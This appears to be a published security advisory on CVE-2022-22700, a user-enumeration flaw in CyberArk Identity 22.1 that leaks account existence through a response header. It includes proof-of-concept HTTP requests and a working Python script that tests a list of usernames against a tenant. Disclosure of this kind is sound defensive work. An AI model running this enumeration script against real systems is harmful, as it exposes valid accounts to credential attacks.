 ```yaml
---
slug: advisories/porter/
title: CyberArk Identity 22.1 Vulnerability
authors: Andres Roldan
writer: aroldan
codename: porter
product: CyberArk Identity
date: 2022-02-15 12:00 COT
cveid: CVE-2022-22700
severity: 5.3
description: CyberArk Identity 22.1 User Enumeration
keywords: Fluid Attacks, Security, Vulnerabilities, CyberArk, Identity
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                         |                                                            |
|-------------------------|------------------------------------------------------------|
| **Name**                | CyberArk Identity 22.1 User Enumeration                    |
| **Code name**           | [Porter](https://en.wikipedia.org/wiki/Cole_Porter)        |
| **Product**             | CyberArk Identity                                          |
| **Affected versions**   | 22.1 and below                                             |
| **Fixed versions**      | 22.2                                                       |
| **State**               | Public                                                     |

## Vulnerability

|                       |                                                                  |
|-----------------------|------------------------------------------------------------------|
| **Kind**              | User Enumeration                                                 |
| **Rule**              | [225. Proper Authentication Responses](https://docs.fluidattacks.com/criteria/requirements/225)                                                          |
| **Remote**            | Yes                                                              |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N                     |
| **CVSSv3 Base Score** | 5.3                                                              |
| **Exploit available** | Yes                                                              |
| **CVE ID(s)**         | [CVE-2022-22700](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-22700)                                                    |

## Description

CyberArk Identity versions up to and including 22.1 in the
`StartAuthentication` resource, exposes the response header `X-CFY-TX-TM`.
In certain configurations, that response header contains different, predictable
value ranges which can be used to determine wether a user exists in the tenant.

## Proof of Concept

- A request is sent with a known valid user

Request:

```json
POST /Security/StartAuthentication HTTP/1.1
Host: customer.my.idaptive.app
Content-Length: 143
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.82 Safari/537.36
Content-Type: application/json

{"TenantId":"","User":"admin@customer.com","Version":"1.0","AssociatedEntityType":"Portal","AssociatedEntityName":"Portal","ZsoSessionId":""}
```

Response:

```json
HTTP/1.1 200 OK
Cache-Control: no-cache, no-store, must-revalidate
Pragma: no-cache
Content-Type: application/json; charset=utf-8
X-CFY-TX-TM: 109
...
```

In the cases when the user exists, the value of `X-CFY-TX-TM`
is always less than `500`.

- A request is sent with a non existent user

Request:

```json
POST /Security/StartAuthentication HTTP/1.1
Host: customer.my.idaptive.app
Content-Length: 147
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.82 Safari/537.36
Content-Type: application/json

{"TenantId":"","User":"notexists@customer.com","Version":"1.0","AssociatedEntityType":"Portal","AssociatedEntityName":"Portal","ZsoSessionId":""}
```

Response:

```json
HTTP/1.1 200 OK
Cache-Control: no-cache, no-store, must-revalidate
Pragma: no-cache
Content-Type: application/json; charset=utf-8
X-CFY-TX-TM: 1492
...
```

In the cases when the user does not exist, the value of `X-CFY-TX-TM`
is always above than `1000`.

## Exploit

The following code was used to enumerate valid users:

```python
#!/usr/bin/env python
#
# Author: aroldan@fluidattacks.com

import json
import requests
import sys

URL = 'https://<customer>.my.idaptive.app/Security/StartAuthentication'
RAW_DATA =  '{"TenantId":"","User":"test@customer.com","Version":"1.0","AssociatedEntityType":"Portal","AssociatedEntityName":"Portal","ZsoSessionId":""}'
JSON_DATA = json.loads(RAW_DATA)

with open(sys.argv[1], 'r') as fd:
    USERS = [x.rstrip() for x in fd.readlines()]

for USER in USERS:
    VALUE = 10000
    PAYLOAD = JSON_DATA
    PAYLOAD['User'] = USER
    RESP = requests.post(URL, json=PAYLOAD)
    if 'X-CFY-TX-TM' in RESP.headers:
        VALUE = int(RESP.headers['X-CFY-TX-TM'])
    if VALUE < 1000:
        print(VALUE)
        print(f'[+] User {USER} exists.')
    else:
        print(f'[-] User {USER} not exists.')
```

## Credits

The vulnerability was discovered by [Andrés
Roldán](https://www.linkedin.com/in/andres-roldan/) from the Offensive
Team of  `Fluid Attacks`.

## References

|                     |                                                                     |
|---------------------|---------------------------------------------------------------------|
| **Vendor page**     | <https://www.cyberark.com/resources/cyberark-identity/>                                     |
| **Changelog**     | <https://docs.cyberark.com/Product-Doc/OnlineHelp/Idaptive/Latest/en/Content/ReleaseNotes/ReleaseNotes-Latest.htm>                                     |

## Timeline

- 2021-09-28: Vulnerability discovered in customer engagement.

- 2021-09-29: Customer notified of vulnerability.

- 2022-01-21: Customer approval to contact vendor.

- 2022-02-05: Vendor contacted.

- 2022-02-16: Vendor asked for more information.

- 2022-02-25: Version 22.2 released with fix.

- 2022-02-28: Vendor confirmed patch.